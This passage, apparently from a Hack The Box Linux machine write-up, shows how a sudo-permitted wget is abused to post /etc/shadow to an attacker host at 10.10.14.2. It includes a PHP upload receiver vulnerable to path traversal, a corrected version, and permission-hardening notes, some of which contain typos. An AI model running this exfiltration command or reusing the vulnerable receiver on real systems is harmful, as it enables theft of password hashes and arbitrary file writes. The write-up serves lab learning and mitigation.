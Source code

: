 ![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/44.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/45.jpg)

- send the file as an php script arguments

```sh
sudo wget --post-file=/etc/shadow 10.10.14.2/upload.php?filename=shadow 
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/46.jpg)

- we sending the arguments and contents of the file

- create an vulnerable uplaoding and executing php script

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/47.jpg)

```php
<?php
file_put_contents('upload/'.$_REQUEST['filename'],file_get_contents('php://input'));
?>
```

- Vulnerabilities
		- drop an php script and upload execute it.

- mitigation 
		- using umask settings ; they will nolonger read what they upload
- mitigate traversal folder vulnerability; add a constant for path 

```sh
<?php
$fname = basename($_REQUEST[$'filename']);
file_put_contents('upload/'.$fname,file_get_contents('php://input'));
?>
```

- make a file test.txt and make them only writable by others

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/48.jpg)

```sh
touch test
ls -la
cmod 222 test // add only write permission
chmod 222 test
echo "Please Subscribe" > test
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/49.jpg)

```sh
rm test
useradd ipp 
su - ipp
cd ..
chown ipp upload
cd /upload/
su -ipp

```
